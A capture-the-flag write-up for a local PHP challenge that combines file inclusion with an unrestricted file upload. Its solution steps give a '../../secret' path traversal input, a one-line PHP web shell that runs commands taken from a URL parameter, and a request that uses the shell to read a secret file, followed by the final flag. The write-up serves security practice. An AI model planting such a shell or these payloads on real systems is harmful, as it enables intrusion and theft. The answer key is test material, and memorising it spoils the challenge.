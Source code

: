 # Writeup

Github Repo - https://github.com/kavyaharlalka/CtfFileUpload

## Overview

The goal of this challenge is to use a PHP file inclusion vulnerability and a file upload exploit to obtain access to secret files on the server. A web application that enables users to upload files and see them on a website is the subject of the challenge. However, a PHP file inclusion attack can take advantage of the application's vulnerability to include and run any PHP code. The program also has a file upload capability that is open to file upload attacks, enabling attackers to upload malicious PHP files to the server. To complete the challenge, competitors must upload a PHP shell to the server and execute the shell using the PHP file inclusion vulnerability. The hidden directory, which houses the flag, may then be found by browsing the server's filesystem from that point.

## Challenges

Challenge 1: Exploit a vulnerability in the given PHP file inclusion functionality.

Challenge 2: Exploit a vulnerability in the given PHP file upload functionality.


## Solution :-

1.	Access localhost:8000
2.	Go to Challenge 1
3.	Search for “../../secret”
4.	Copy the flag you see (call it flag1)
5.	Go back to localhost:8000
6.	Go to Challenge 2
7.	Upload a php script (let’s say backdoor.php) with “<?php system($_GET['cmd']); ?>”
8.	Access localhost:8000/challenge2/uploads/backdoor.php?cmd=cat%20secret.php
9.	Check the network tab with the above request; you will find the flag in the response (lets call it flag2)
10.	Concatenate both flags and enclose them in `CTF_SDaT{}` to get the final flag.

## Final Flag 

CTF_SDaT{f1l3_inclu510n_vuln3r4b1l1ty_@nd_uPload_3xplo1t}